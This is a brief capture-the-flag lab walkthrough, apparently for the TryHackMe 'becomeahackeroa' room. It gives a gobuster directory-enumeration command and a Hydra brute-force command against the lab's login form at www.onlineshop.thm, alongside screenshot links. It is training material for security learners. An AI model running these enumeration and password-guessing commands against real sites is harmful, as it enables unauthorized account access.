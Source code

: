 ### 28-Feb-24-Wed

[becomeahackeroa](https://tryhackme.com/room/becomeahackeroa)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a1afdebf-cfd1-484a-992c-6754bfff3a18)

```
gobuster dir --url http://www.onlineshop.thm/ -w /usr/share/wordlists/dirbuster/directory-list.txt
```

```
hydra -l admin -P passlist.txt www.onlineshop.thm http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cb5ccfb5-36ec-43db-9f10-c968857622bc)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/11715c3e-27cf-4417-ac08-21ac40e1fcd8)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/3f02545e-8d21-4a87-bb6e-dfdabc52b238)
